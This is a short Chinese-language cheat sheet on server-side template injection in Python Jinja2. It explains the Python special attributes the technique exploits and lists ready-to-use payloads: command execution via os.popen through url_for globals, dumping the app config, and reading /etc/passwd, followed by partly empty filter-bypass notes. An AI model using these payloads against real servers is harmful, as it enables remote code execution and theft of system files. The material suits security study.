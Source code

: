 # 服务端模板注入（SSTI，Server Side Template Injection）

模板？

## Python Jinja2

{{ }}
{% %}

__import__("os").popen("whoami").read()

[open](https://docs.python.org/zh-cn/3.10/library/functions.html#open) 为 Python 内置函数

open("/etc/passwd").read()

特殊方法

__subclasses__()

特殊属性

- `object.__class__`，返回该对象所属的类

```python
>>> ''.__class__
<class 'str'>
>>> [].__class__
<class 'list'>
```

- `function.__globals__`，返回存放该函数中 全局变量

- `class.__base__`，返回类的父类

```python
>>> ''.__class__.__base__
<class 'object'>
```

### 常用payload

{{url_for.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()")}}

{{ config }}

#### 读文件

```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}

{{get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read()}}
```

## 绕过过滤

```python
request.__class__
request["__class__"]
```

### `_`

### `[ ]`

### `|join`

## PHP SSTI

